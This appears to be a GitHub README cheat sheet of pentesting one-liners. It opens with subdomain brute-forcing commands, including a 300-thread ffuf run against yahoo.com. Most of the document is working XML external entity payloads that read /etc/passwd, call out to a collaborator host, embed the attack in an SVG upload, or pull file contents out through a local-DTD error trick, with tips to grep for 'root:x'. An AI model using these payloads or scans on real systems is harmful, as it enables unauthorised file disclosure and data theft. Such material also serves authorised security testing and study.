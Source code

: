 # Some Importent script for automation
writen by: RobinTrigon | 3rr0r-404
-----------------------------------------------------------------------------------------------------------------------------------------------------------
### Brutforce sobdomain via ffuf
```
subs="/home/aruu/Desktop/ath3na/sub.txt" ; act="https://FUZZ.yahoo.com" ; ffuf -w $subs -v -t 300 -timeout 15  -u "$act" -o lol | grep "URL" | tee -a result.txt ; rm lol
```
### Remove scheme from  list of urls
```
for url in $(cat lis_of_urls.txt);do
 echo "$url"|awk -F[/:] '{print $4}'
done
```
### collect all subdomains ip from target website
```
assetfinder --subs-only "testfire.net" |dig| grep -Eo '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}'
```
### subdomain brutforce via host command
```
for sub in $(cat brutforce_payload.txt) 
do
if host $sub.target.com &>/dev/null 
then
echo "$sub.target.com"
fi
done

```
### Entities are not allowed
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://colabrator/"> ]>

```
### Entities are not allowed
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://collabrator"> %xxe; ]> //dont call xxe

```
### must try
```
<!DOCTYPE r [<!ELEMENT r ANY ><!ENTITY xxe SYSTEM "file:///etc/passwd"><!ENTITY sp SYSTEM "https://collabretor/">]><r>&xxe;&sp;</r>
```

### Peram Based
#### Just replace any peramiter with it and egrep "root:x|daemon:x"
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
### file upload
#### save this as  svg file and upload it. now check your uploaded picture with root:x content.
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
### brutforceing dtd
#### bruteforce "bruteforce-here" with your dtd list and grep  root:x | daemon:x
```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file://bruteforce-here">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
